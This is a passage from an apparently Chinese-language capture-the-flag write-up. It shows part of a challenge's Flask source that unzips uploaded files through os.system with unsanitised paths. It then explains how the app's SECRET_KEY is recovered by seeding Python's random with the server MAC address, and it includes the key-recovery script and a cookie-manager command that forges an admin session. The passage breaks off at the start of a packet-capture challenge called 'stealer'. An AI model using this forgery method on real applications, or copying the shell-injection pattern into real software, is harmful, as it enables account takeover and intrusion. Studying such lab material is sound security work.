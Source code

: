     try:
        extract_path = file_save_path + '_'
        os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
        read_obj = os.popen('cat ' + extract_path + '/*')
        file = read_obj.read()
        read_obj.close()
        os.system('rm -rf ' + extract_path)
    except Exception as e:
        file = None
    
    os.remove(file_save_path)
    if(file != None):
        if(file.find(base64.b64decode('ZmxhZw==').decode('utf-8')) != -1):
            return redirect(url_for('index', error=1))
    return Response(file)


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='127.0.0.1', debug=False, port=10008)</code></pre>

分析`app.config['SECRET_KEY'] = str(random.random()*100)`可以发现，所谓的SECRET_KEY是由随机数生成的一串字符串，而设置随机数种子的`random.seed(uuid.getnode())`的函数可以获取网卡mac地址并转换成十进制数返回，进而生成伪随机数。查找资料发现，可以通过`/sys/class/net/eth0/address`来获取MAC地址。<figure class="wp-block-image is-resized">

<img loading="lazy" src="https://img-blog.csdnimg.cn/20200714002326306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NyaXNwcng=,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述" width="462" height="182" /> </figure> 

获取到为`02:42:ac:10:98:e8`，跑下一脚本

<pre class="wp-block-code"><code>import uuid
import random

mac = "02:42:ac:10:98:e8"
temp = mac.split(':')
temp = &#91;int(i,16) for i in temp]
temp = &#91;bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
randStr = str(random.random()*100)
print(randStr)</code></pre>

得到结果`77.82254010793636`，再用flask-session-cookie-manager工具加密下，得到admin的sessio。

<pre class="wp-block-code"><code>python3 flask_session_cookie_manager3.py encode -s '77.82254010793636' -t "{u'username':u'admin'}"</code></pre>

bp抓包提交下<figure class="wp-block-image size-full">

<img loading="lazy" width="967" height="341" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/09/图片.png" alt="" class="wp-image-3511" /> </figure> 

## 0x05 stealer

题目：那女孩对我说说我是一个小偷

打开后`dns and ip.src==172.27.221.13`过滤一下，发现存在base64的图片<figure class="wp-block-image size-full">
